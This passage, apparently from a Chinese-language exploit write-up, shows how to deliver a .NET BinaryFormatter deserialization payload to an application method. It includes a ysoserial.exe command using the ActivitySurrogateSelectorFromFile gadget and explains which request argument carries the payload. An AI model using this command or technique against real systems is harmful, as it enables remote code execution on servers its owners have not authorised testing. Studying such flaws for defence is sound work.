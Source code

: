 再找一个满足传参的类，如：

```asp
SaveBizTipsInfos(string bizHost, List<IBizTipsInfos> tips)
```

2、参数

1.  使用ap作为参数

由于第一个参数为string所以我们需要用第二个参数来传递payload，这里我们用ysoserial.exe生成：

```php
ysoserial.exe -c "a.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
```

![image-20231207155405575](assets/1703831566-45a96b75a05e2054a4688452f8422157.jpg)

2.  使用parameters作为参数

parameters根据上述`RequestExtractor#GetServiceParameters`方法可以得知，需要传递一个数组对象，同样由于第一个参数为string不能放payload，所以将paylaod放置在数组的第二个位置即可：

![image-20231207172937604](assets/1703831566-1d728ffc7146fdbc2c162da6ddf6a566.jpg)
